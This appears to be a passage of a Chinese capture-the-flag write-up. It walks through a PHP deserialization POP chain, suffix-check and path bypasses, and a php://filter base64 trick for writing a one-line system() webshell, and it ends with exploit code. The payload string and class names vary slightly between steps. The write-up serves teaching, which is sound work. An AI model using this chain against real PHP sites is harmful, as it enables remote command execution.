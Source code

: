 1. `getfilename($name,$expire)`
   这里会检查`$name`的后四位是不是以`.php`结尾, 一般地如果中间件支持, 可以用`php3`, `php5`, `phtml`等后缀绕过, 在题目里我们使用`.php\.`绕过后缀检查, 而且还能保证被解析.
   此外, 程序还会在文件名前追加随机的字符, 这里可以使用`/../filename.php`绕过, 将随机字符视为目录, 再通过`../`访问上级目录.
   最终的`$name`应为`/../filename.php/.`

至于`$expire`的用法, 会在下面用到

2. `getcontent()`
   这里会在文件内容前追加`<?php exit() ?>`, 为了绕过, 我们使用 php 伪协议中的`filter`过滤链, 例如

```
php://filter/write=convert.base64-decode/resource=filename.php
```

使用 base64 的`filter`时, php 会跳过 base64 字符, 因此`<?php exit() ?>`就变成了`phpexit`7 个字符, 为了不造成错误, 在`$content`前追加一个字符, 即可使`$content`正常解析.
那么如何使用伪协议呢? 再次考察`getfilename($name,$expire)`, 文件名前方会拼接上`$expire`, 如果让`$expire=php://filter/write=convert.base64-decode/resource=`, 那么拼接之后文件名就是:

```
php://filter/write=convert.base64-decode/resource=./log/unknowid/../filename.php/.
```

再让`$content`为任意一个字母拼接上 php 一句话木马的 base64 即可. 例如

```
aPD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2MnXSk7ID8+
```

其中`base64.decode(PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2MnXSk7ID8+) = <?php echo system($_GET['c']); ?>`

### 0x02 编写 exp

回顾整个流程, 为了写入 webshell, 我们需要做如下工作

1. 构造一个`Test`类的对象`$test`, 在`$test`被销毁时触发`__destroy()`方法
2. 令`$test->register=false`, 进入`__destroy()`方法的`if`中
3. 为了调用`Show.__call()`, 令`$this->check`为`Show`类, 可以在构造的时候, 传入`Show`类的对象`$show`进行实例化
4. 为了让`Show.__get()`返回`sava`, 令`$show->except=array("index" => "save")`
5. 进入`sava()`方法后, 为了执行`Log.writelog()`, 令`$show->group`为`Log`类, 可以使用`Log`类的对象`$log`对`$show->group`进行赋值. `writelog()`的而参数该如何赋值?我们先看`writelog()`这个方法.
6. 进入`Log.writelog()`方法后, 需要让`$key=/../filename.php/.`, `$expire=php://filter/write=convert.base64-decode/resource=`作为参数进入`getfilename($name,$expire)`. 令`$logger='aPD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2MnXSk7ID8+'`, 让伪协议能够 base64 解码 webshell.
7. 因此, 在我们需要:

- `$show->logger='aPD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2MnXSk7ID8+'`
- `$show->key='/../filename.php/.'`
- `$show->group=new Log()`
- `$show->expire='php://filter/write=convert.base64-decode/resource='`

恰好, 以上参数可以通过`Show`的构造函数进行赋值, 于是 exp 如下:

```php
$show = new Show('qPD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbJ2MnXSk7ID8+', '/../filename.php/.', new Log(), 'php://filter/write=convert.base64-decode/resource=');
$t = new Test('');
$t->registed = false;
$t->check=$show;

echo serialize(urlencode($t));
```
